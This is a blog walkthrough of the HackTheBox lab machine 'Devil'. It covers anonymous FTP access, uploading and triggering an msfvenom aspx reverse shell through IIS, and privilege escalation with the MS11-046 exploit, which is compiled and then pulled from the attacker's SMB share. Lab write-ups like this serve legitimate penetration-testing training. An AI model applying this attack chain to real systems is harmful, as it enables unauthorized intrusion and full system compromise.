

Greetings everyone, this blog is the complete step by step walkthrough of a machine named ‘Devil’ on the platform HackTheBox
We have our machine’s ip : 10.10.10.5
Let’s perform enumeration using nmap I used command : nmap -sV -sC -A 10.10.10.5 -v10 (Aggressive scan)
You should perform other scans also like full port scan and Udp scan using commands:
nmap -T4 -sV -sC -p- -A 10.10.10.5 -v10 (Full Port)
nmap -T5 -sv -sc -sU -A 10.10.10.5 -v10 (UDP Scan)

Since we got a lead by first scan so moving forward , from our scan we got to know that there is Ftp’s vulnerability which allow us to login using anonymous username and no password. Let’s also check if there is any website hosted on this ip or not as we have also seen http port open .


Yes there is a website hosted and we also entered in machine using Ftp. Now let’s check the website’s source code for any secrets or hints and also in ftp if we can upload/download anything from machine using anonymous username.

After listing the files using ls command we can see there is a file names “welcome.png” which is also present in website’s source code this means that web server And ftp server are both using the same directory which means we can upload a shell using ftp and execute it using web server .


Yes we have access to upload and download now to confirm what we discussed earlier about same directory , let’s try to access the uploaded item using web server. And as we can see we are able to access it .

This means we can run our reverse shell , so let’s create our reverse shell but in which format should we create it . By little searching we got to know that IIS server running uses asp language so we have to create in .asp/.aspx format.
We are avoiding msfconsole framework in this walkthrough so we’ll create or search for stageless payloads so we are using this command to create it : msfvenom -p windows/shell_reverse_tcp -f aspx LHOST LPORT > shell.aspx
And upload it using Ftp

Now lets start the listener on attacking machine and then run our shell using web server i.e on browser open “http://10.10.10.5/shell.aspx “

Congratulations we have entered in machine’s shell using whoami command we get to know that we are web user only and we don’t have access to any Users folders

So now we have to perform Privilege escalation to get the root access.
So lets first enumerate and check system info using command “systeminfo”

From here we got to know that the machine’s OS is Windows 7 Enterprise and version is 6.1.7600 Build 7600. Now we can search for its exploit if available
And to our luck by searching we got one privilege escalation vulnerability on exploit-db that is 40564.c having code MS11-046
You can also find it using searchsploit and then mirror it to your device .

Since this exploit is in c language you must have gcc or c compiler to compile it and make it in executable format.
Use command : i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32

Now we have our executable so lets transfer it to our machine whose web access we got
We can transfer it using many techniques like python server or smb or ftp but using some techniques we got to know we can’t use curl or wget command .

After some hit and try we got a solution , we can transfer it using impackets (smb-server) and download it using copy command
Lets start smb server on our attacking machine using command :
Impacket-smbserver share $(pwd) -smb2support

And copy it in machine using command : copy \\10.10.16.12\share\MS11-046.exe

Yaayyy its copied now lets run it
And Boom we got out root access now we can move anywhere and find our flags.